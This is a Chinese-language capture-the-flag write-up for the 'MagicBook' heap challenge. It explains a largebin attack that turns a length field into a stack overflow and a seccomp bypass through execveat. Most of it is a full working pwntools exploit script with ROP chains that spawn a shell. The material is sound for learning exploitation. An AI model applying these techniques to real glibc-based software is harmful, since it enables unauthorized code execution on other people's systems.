

# MagicBook 

> [!NOTE]
> 感谢 *dbgbgtf* 提供的脚本用以复现

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|off   |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.35-0ubuntu3.6|

## seccomp rules



## 解题思路

一个菜单题，没有show，只给了程序基地址。堆块删除不会清空，
因此只能分配5个堆块。有一次堆块uaf机会，
可以写`[ptr + 8]`~`[ptr + 0x20]`（刚好能写largebin的`bk_nextsize`）

堆块大小允许超过0x400，因此可以做largebin attack，而在`edit_the_book`函数中，
读取的长度是由`book`决定的。由于给了程序基地址，因此可以利用largebin attack，
将堆地址写到`book`上，这样就可以造成栈溢出打rop

> 在[以前的文章中](../isctf2023/abstract_shellcode.md)中提到过`read`的参数`count`是不能超过`SSIZE_MAX`的，
> 在官方wp中也提到了这一点，因此在主循环中每次都`book &= 0xffff`限制大小

只禁了`execve`系统调用，因此可以使用`execveat`来拿shell

在设置传参函数的时候还要将r8置为0，因为这个`flags`在我们的情况下是`0x1e`，
会导致`execveat`无法打开shell

### `execveat`在libc中出现的时刻

经过源码符号查找，首次出现这个系统调用的版本是[2.27](https://elixir.bootlin.com/glibc/glibc-2.27/source/sysdeps/unix/sysv/linux/fexecve.c#L43)，
正式出现函数封装的版本是[2.34](https://elixir.bootlin.com/glibc/glibc-2.34/source/sysdeps/unix/sysv/linux/execveat.c#L26)

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './MagicBook'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('', 9999)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.6_amd64/libc.so.6')
    elf = ELF(EXE)

    def createBook(size:int):
        sh.sendlineafter(b'choice', b'1')
        sh.sendlineafter(b'need', str(size).encode())
    
    def deleteBook(idx:int, page:int=0, content:bytes=None):
        sh.sendlineafter(b'choice', b'2')
        sh.sendlineafter(b'delete', str(idx).encode())
        if content:
            sh.sendlineafter(b'y/n', b'y')
            sh.sendlineafter(b'page', str(page).encode())
            sh.sendafter(b'content', content)
        else:
            sh.sendlineafter(b'y/n', b'n')

    def editBook(content: bytes):
        sh.sendlineafter(b'choice', b'3')
        sh.sendafter(b'story!\n', content)

    sh.recvuntil(b'gift: ')
    pieBase = int(sh.recv(14), 16) - elf.symbols['d']
    success(GOLD_TEXT(f'Leak PIE base: {pieBase:#x}'))
    elf.address = pieBase

    createBook(0x4e0)   # 0
    createBook(0x20)    # 1 prevent 0 from being merged
    createBook(0x4d0)   # 2
    deleteBook(0)       # place 0 in unsorted bin
    createBook(0x4f0)   # 3 place 0 in large bin

    deleteBook(2, 0, p64(0) * 2 + p64(elf.symbols['book'] - 0x20)) # place 2 in unsorted bin
    createBook(0x500)   # 4 place 2 in large bin and trigger large bin attack
                        # write a heap address on book
    # construct rop chain
    gadgets = ROP(elf)
    rdi = gadgets.rdi.address
    ret = gadgets.ret.address
    editBook(b'0'*0x28 + flat(rdi, elf.got['puts'], elf.plt['puts'], elf.symbols['edit_the_book']))

    libcBase = u64(sh.recv(6) + b'\0\0') - libc.symbols['puts']
    success(GOLD_TEXT(f'Leak libcBase: {libcBase:#x}'))
    libc.address = libcBase

    gadgets = ROP(libc)
    rsi = gadgets.rsi.address
    rdx = gadgets.rdx.address # pop rdx; pop rbx; ret;
    rcx = gadgets.rcx.address
    r8 = libcBase + 0x1659e6
    # execveat(0, "/bin/sh", NULL, NULL, 0)
    sh.send(b'0'*0x28 + flat(rdi, 0, rsi, next(libc.search(b'/bin/sh')),
                             rdx, 0, 0, rcx, 0, r8, 0, libc.symbols['execveat']))

    sh.clean()
    sh.interactive()
```

> [!WARNING]
> 禁用了`execve`后，对于fork出来的程序也是有效的，因此后续不能使用`cat flag`来打印文件内容，
> 应使用`read FLAG < flag; echo $FLAG`来打印flag
